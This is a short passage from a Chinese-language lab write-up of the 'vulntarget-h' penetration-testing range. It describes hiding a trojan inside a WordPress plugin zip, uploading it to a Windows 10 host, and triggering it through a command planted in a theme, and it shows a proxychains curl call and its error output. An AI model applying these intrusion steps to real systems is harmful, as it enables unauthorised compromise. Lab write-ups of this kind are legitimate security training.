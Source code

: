 + 将上传Windows 7的木马到Windows 10。这里通过在WordPress官网下载随便一个插件然后把我们的木马放进压缩包再上传。

![Screenshot_2022-07-02_12_13_31.png](../images/vulntarget-h%20write-up/Screenshot_2022-07-02_12_13_31.png)

+ 然后通过我们在主题写入命令执行该文件就可以了。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 curl 192.168.153.129/a -d "1=wp-content\plugins\classic-editor\js\a.ini"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:6033  ...  192.168.153.129:80  ...  OK
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="utf-8">
  <title>500 错误 - phpstudy</title>
  <meta name="keywords" content="">
```
